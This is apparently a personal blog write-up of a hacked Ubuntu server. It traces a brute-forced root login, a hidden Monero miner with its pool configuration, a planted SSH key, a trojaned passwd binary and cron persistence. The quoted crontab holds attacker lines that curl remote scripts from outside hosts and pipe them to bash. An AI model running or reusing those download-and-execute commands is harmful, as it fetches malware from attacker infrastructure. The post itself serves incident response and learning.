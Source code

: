 +++
title = 'My Ubuntu server was hacked!'
date = 2023-07-15T04:36:12-05:00
draft = false
+++
## Problem

Root and other users, except the default Ubuntu user on Tencent Cloud, are unable to log in.

- Immediately logged into Ubuntu and confirmed the configuration in /etc/ssh/sshd_config. `PermitRootLogin` was enabled, and `PasswordAuthentication` was also active.
- Used `passwd` to reset the password.
- Still failed to log in.

CPU utilization at 100%.

![CPU Utilization](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/362a690e-7ae8-47cd-9c16-ecc412af89c9/Untitled.png)

- Used `kill -9 2724` to terminate the process.
- Found implanted programs in /var/tmp/.x and /var/tmp/.xrx.

```bash
lighthouse@VM-12-14-ubuntu:~$ ls -la /var/tmp/.xrx /var/tmp/.x
/var/tmp/.x:
total 1032
drwxr-xr-x  2 root root    4096 Jul  8 03:32 .
drwxrwxrwt 10 root root    4096 Jul 11 12:44 ..
-rwxr-xr-x  1 root root 1047528 Mar 29 22:10 secure

/var/tmp/.xrx:
total 7144
drwxr-xr-x  2 root root    4096 Jul  8 03:32 .
drwxrwxrwt 10 root root    4096 Jul 11 12:44 ..
-rwxr-xr-x  1 root root   36464 Mar 29 22:10 chattr
-rwxr-xr-x  1 root root    4437 Mar 29 22:10 config.json
-rwxr-xr-x  1 root root 1045224 Mar 29 22:10 init.sh
-rwxr-xr-x  1 root root     388 Mar 29 22:10 key
-rwxr-xr-x  1 root root      63 Mar 29 22:10 scp
-rwxr-xr-x  1 root root 6202944 Mar 29 22:10 xrx
```

```bash
lighthouse@VM-12-14-ubuntu:~$ find /var/tmp/.xrx -type f -exec file {} \;
/var/tmp/.xrx/xrx: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, stripped
/var/tmp/.xrx/scp: Bourne-Again shell script, ASCII text executable
/var/tmp/.xrx/config.json: JSON data
/var/tmp/.xrx/key: OpenSSH RSA public key
/var/tmp/.xrx/chattr: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
/var/tmp/.xrx/init.sh: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=81e40e2e8b4c74c7ab0f7549df7e9915d95e9a71, for GNU/Linux 3.2.0, not stripped
```

Opened config.json.

```json
{
            "algo": null,
            "coin": "monero",
            "url": "pool.supportxmr.com:443",
            "user": "4BDcc1fBZ26HAzPpYHKczqe95AKoURDM6EmnwbPfWBqJHgLEXaZSpQYM8pym2Jt8JJRNT5vjKHAU1B1mmCCJT9vJHaG2QRL",
            "pass": "x",
            "rig-id": "",
            "nicehash": false,
            "keepalive": false,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
}
```

It's evident that it's being used for mining Monero.

## Possible Vulnerabilities

A friend set a very common password for the root user while logging into the server: `admin`. It was cracked after 790 brute-force attempts.

## Clues

1.The ssh's authorized_keys was tampered with.

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo stat /root/.ssh/authorized_keys
  File: /root/.ssh/authorized_keys
  Size: 388             Blocks: 8          IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 524314      Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 12:40:27.494946194 +0800
Modify: 2023-07-08 03:32:17.174803904 +0800
Change: 2023-07-08 03:32:17.178804015 +0800
 Birth: 2023-07-08 03:32:17.174803904 +0800
```

Checked /etc/ssh/sshd_config; it wasn't modified.

Public key encryption wasn't enabled.

```bash
lighthouse@VM-12-14-ubuntu:~$ grep Pubkey /etc/ssh/sshd_config 
#PubkeyAuthentication yes
PubkeyAcceptedKeyTypes +ssh-rsa
```

It's clear that authorized_keys and the implanted .xrx/key are the same.

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo cmp --silent /var/tmp/.xrx/key /root/.ssh/authorized_keys && echo "identical" || echo "diff"
identical
```

1. Crontab running scheduled tasks.

```bash
lighthouse@VM-12-14-ubuntu:~$ cat /etc/crontab
@daily root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
@reboot root /var/tmp/.xrx/init.sh hide >/dev/null 2>&1 & disown  
1 * * * * root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
*/30 * * * * root curl 179.43.142.41:1011/next | bash 
*/30 * * * * root curl load.whitesnake.church:1011/next | bash
```

`@reboot` runs init.sh every reboot.

The modification time matches that of authorized_keys.

```bash
lighthouse@VM-12-14-ubuntu:~$ stat /etc/crontab
  File: /etc/crontab
  Size: 305             Blocks: 8          IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 131742      Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 12:38:54.108000000 +0800
Modify: 2023-07-08 03:32:22.238945046 +0800
Change: 2023-07-08 03:32:22.238945046 +0800
 Birth: 2023-07-08 03:32:17.058800670 +0800
```

1. `passwd-` was modified.

```bash
lighthouse@VM-12-14-ubuntu:~$ ls -la /etc | grep passwd
-rw-r--r--   1 root root       2263 Jul  9 12:12 passwd
-rw-r--r--   1 root root       2218 Jul  8 03:32 passwd-
```

The password was set to `x`, stored in /etc/shadow.

Upon observation, all accounts except Ubuntu had identical salts and hash values. Even after using passwd to change the password, it didn't change, suggesting passwd was replaced.

```bash
lighthouse@VM-12-14-ubuntu:~$ stat /usr/bin/passwd
  File: /usr/bin/passwd
  Size: 59976           Blocks: 120        IO Block: 4096   regular file
Device: fc02h/64514d    Inode: 8266        Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2023-07-11 15:31:38.888999225 +0800
Modify: 2022-11-24 20:05:18.000000000 +0800
Change: 2023-07-11 15:31:37.292954793 +0800
 Birth: 2023-07-11 15:31:37.236953235 +0800
```

```bash
lighthouse@VM-12-14-ubuntu:~$ sudo debsums passwd
/sbin/shadowconfig                                                            OK
/usr/bin/chage                                                                OK
/usr/bin/chfn                                                                 OK
/usr/bin/chsh                                                                 OK
/usr/bin/expiry                                                               OK
/usr/bin/gpasswd                                                              OK
/usr/bin/passwd                                                           FAILED
/usr/lib/tmpfiles.d/passwd.conf                                               OK
```

It appears that the passwd command has been replaced and is unable to change passwords normally. This is why after 'changing the password,' both root and most other users are unable to log in.

Now to replace passwd: `sudo apt-get install --reinstall passwd`

Then use `sudo debsums passwd` to verify again, and this time it's correct.

Now change the root password and try to SSH login, success!

## Finally

To completely eradicate the problem and prevent system backdoors, the only solution is to reinstall the operating system on the server.
